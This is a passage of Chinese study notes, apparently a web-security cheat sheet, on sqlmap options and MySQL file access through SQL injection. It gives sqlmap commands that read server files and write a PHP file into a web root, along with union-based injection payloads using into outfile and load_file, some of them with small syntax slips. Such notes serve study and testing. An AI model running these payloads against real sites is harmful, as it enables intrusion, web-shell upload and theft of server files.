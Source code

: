 | **--os-shell** | 命令执行shell）                                              |
| --prefix       | 宽字节注入                                                   |
| --second-url   | 二次注入                                                     |

**--file-read**  **使用load_file 读取服务器上的文件（文件的绝对路径、以及MySQL对文件的权限、MySQL的安全开关securi_file_priv=空）**

```sqlmap
sqlmap -u http://xxxx.com/xx.php?id=1 --file_read /xxx/xxx/t123.txt源文件绝对路径
```

**--file_write + file_dest 同时使用，一个执行sqlmap所在计算机文件的路径，一个为服务器的存储的据对的路径，**

```sqlmap
sqlmap -u http://xxxx.com/xx.php?id=1 --file_write xxx/xxx/t123.txt源文件路径 --file_des /var/www/html/123.php写入文件路径
```

![image-20210712172756402](websafe/image-20210712172756402.png)

mysql: into outfile '/tmp/a.txt'

​			into dumpfile '/tmp/b.txt'

select load_file('/tmp/b.txt')

![image-20210713231923138](websafe/image-20210713231923138.png)

控制写入文件的内容

```mysql
select * from users where uname = 'a' union select 1,2,version(),4,5,6,'' into outfile '/tmp/a.txt';
```

```mysql
x select * from users where uname = 'a' union select 1,2,3,4,ascii(mid(load_file(/var/tem.php),1,1))>1 -- a
```

secure_file_priv  为空 可写可读文件
